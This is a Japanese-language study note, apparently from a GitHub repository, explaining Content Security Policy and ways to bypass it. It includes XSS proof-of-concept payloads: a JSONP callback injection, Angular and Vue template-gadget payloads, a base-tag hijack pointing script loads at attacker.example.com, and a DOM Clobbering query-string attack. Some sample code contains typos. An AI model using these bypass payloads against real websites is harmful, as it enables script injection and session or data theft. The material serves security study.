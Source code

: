 # CSP Evaluation
<br>

- [\#CSPとは](#CSPとは)
- [\#CSPが設定されているか](#CSPが設定されているか)
	- [\#HTTPヘッダに含まれる場合](#HTTPヘッダに含まれる場合)
	- [\#meta要素で記述する場合](#meta要素で記述する場合)
- [\#ディレクティブ](#ディレクティブ)
- [\#CSPとは](#CSPとは)
- [\#Bypassing](#Bypassing)
	- [\#ホストベースの構成を利用したバイパス](#ホストベースの構成を利用したバイパス)
	- [\#ディレクティブの設定不備により脆弱性が生まれるパターン](#ディレクティブの設定不備により脆弱性が生まれるパターン)
	- [\#DOM Clobbering による strict-dynamic のバイパス](#DOM-Clobbering-による-strict-dynamic-のバイパス)

<br>

## CSPとは
CSP(Content Security Policy)

CSPはXSSなどの*Content Injection攻撃*に対するリスクを軽減させるセキュリティレイヤーのこと。

具体的には

<dl>
	<dt>ホスト名</dt>
	<dd>スクリプトの配信元として信頼するサーバーのホスト名を指定する。スクリプトを読み込む際に参照されて信頼できるものとして含まれていない場合は実行しない。</dd>
	<dt>ハッシュ値</dt>
	<dd>実効するスクリプトのハッシュ値を先に計算しておき、そのハッシュ値と同じ場合のみ実行を許可する。</dd>
	<dd>hash値が異なる場合 -> script が書き換わった場合実行しない</dd>
	<dt>乱数</dt>
	<dd>HTMLをレスポンス時に使い捨ての乱数スクリプトに付与し、付与時の乱数と等しい場合のみ実行する。</dd>
	<dd>nonce 属性がついていない script 要素は実行しない</dd>

<br>

## CSPが設定されているか

CSPが設定されているかは以下の2パターンで確認できる。

### HTTPヘッダに含まれる場合
```http
HTTP/1.1 200 OK
Host: example.com
...
Content-Security-Policy: script-src 'self'
...
```

### meta要素で記述する場合
```html
<head>
	<meta 
		http-equiv="Content-Security-Policy" 
		content="script-src 'self'"
	>
</head>
```

<br>


## ディレクティブ
ディレクティブとは、CSPによる制限を定義するための命令記法のこと。
*\<directive-name\> \<directive-value\> ...* の順で書かれる
For exsample)
```directive
script-src 'self'
script-src 'self' 'unsafe-inline'
```

<!--
**script-srs** : スクリプトに関する制限を定義するディレクティブ。
|keyword|説明|
|---|---|
|'none'|あらゆるスクリプト|
|'self'|参照している HTML と Same-Origin であるスクリプトの実行を許可する|
|*host-source:* |ホスト名や IP アドレス、URLによって指定されたサーバーから配信されるスクリプトの実行を許可する。|
|'host-souce' 'nonce-\<base64-value\>'|Base64 形式の Nonce (使い捨ての乱数) を用いてスクリプトの実行を許可する。許可対象とするスクリプト要素の nonce 属性と同じ値にならない場合、そのスクリプトは実行されない。|
|'host-souce' '\<hash-algorithm\>-\<base64-value\>'|Base64形式のハッシュ値を用いてスクリプトの実行を許可する。ハッシュ値はスクリプトの内容をハッシュ化したもの。外部リソースの場合はスクリプトの integrity 属性にそのスクリプトのハッシュ値を入れる。|
|
**connect-src** : script interfaces API (XMLHttpRequest や Fetch API のこと) を介して通信可能なURLの制限を定義するディレクティブ。connect-src ディレクティブの値として指定されたURL以外のアクセスは禁止される。

**default-src** : Fetch Directives に属するディレクティブのフォールバックとして機能する。
[developer.mozilla.org CSP: default-src](https://developer.mozilla.org/ja/docs/Web/HTTP/Headers/Content-Security-Policy/default-src)

**base-uri** : base要素で可能なドキュメントの相対URLの起点を制限するディレクティブ。**none** なら安全

-->

<br>

## Bypassing

### ホストベースの構成を利用したバイパス
---
```http
Content-Security-Policy: script-src 'self' csp.example.com
```
のようになっている場合
以下の２点をチェックする

**JSONPエンドポイントの有無**

> *csp.example.com* からスクリプトを返させることによって SOP(Same-Origin-Policy) の制限をバイパスする。

Attacker -> Target
```html
<script src="csp.example.com/jsonp?callback=alert(1)//"></script>
```

Target -> csp.example.com
```text
csp.example.com/jsonp?callback=alert(1)//
#通常 callback 関数を要求していますが、今回はalertが渡されている
```

csp.example.com -> Target
```javascript
alert(1)//({name:aaaa})
// "alert(1)//" に引数を付けて返すがコメントアウトされ alert(1) が実行される
```


**サーバのライブラリ**

> ライブラリに含まれる Script Gadget と呼ばれるスクリプトの挿入を可能にするスクリプトを利用する。

Angular.js の場合
```html
<script src="csp.example.com/angular.js"></script>
<div ng-app ng-csp>{{ eval.constructor('alert(1)')() }}</div>
```

Vue.js の場合
```html
<script src="cdn.example.com/vue.js"></script>
<div>{{ constructor.constructor('alert(1)')() }}</div>
```


<br>


### ディレクティブの設定不備により脆弱性が生まれるパターン
---

> 設定の不備については
[CSP Evaluator](https://csp-evaluator.withgoogle.com/)にて脆弱性を確認できる。

**base-uri** 設定不備の際
```html
<base href="http://attacker.example.com">
```
とすることでそれ以下の\<script src="/test.js"\>となっている箇所を
http://attacker.example.com/test.js と参照先を変えることが可能

<br>

### DOM Clobbering による strict-dynamic のバイパス
---
> script-src ディレクティブに strict-dynamic が設定されている場合、DOM Clobbering と呼ばれる手法を用いて CSP をバイパスできる場合がある。
> > **strict-dynamic** : parser-incerted (\<img src="/"  onerror="\<script\>alert(1)\</script>"\>) などを防ぐ設定
> > 
> > **DOM Clobbering** とは、HTML 内に不正な HTML を挿入することで本来の DOM 構造を破壊し、JavaScrip による DOM 操作の内容を強制的に変更させる手法のこと。

**DOM Clobbering**

*document.getElementById('name')* などが存在するときは、
もともとの idの値よりも前の段階で そのidの値 を使用することで DOM 構造を破壊できる。




脆弱性)

*?title=TITLE&name=USER*
```html
<script>
	windows.onload = () {
		const name = (new URL(location).searchParams).get('name');
		document.getElemetById('name').intterHTML = name;
	}
</script>

<!-- タイトル
?title=TITLE から取得
-->
<h1>TITLE</h1>
<!-- 名前 -->
<p id="name"></p>
```


攻撃例)

*?title=\</h1\>\<script id="name"\>\</script\>\<h1\>&name=alert(1)//*
```html
<script>
	windows.onload = () {
		const name = (new URL(location).searchParams).get('name');
		document.getElemetById('name').intterHTML = name;
	}
</script>

<!-- タイトル
?title=</h1><script id="name"></script><h1> から取得
-->
<h1></h1><script id="name"></script><h1>
<!-- 名前 -->
<p id="name"></p>
```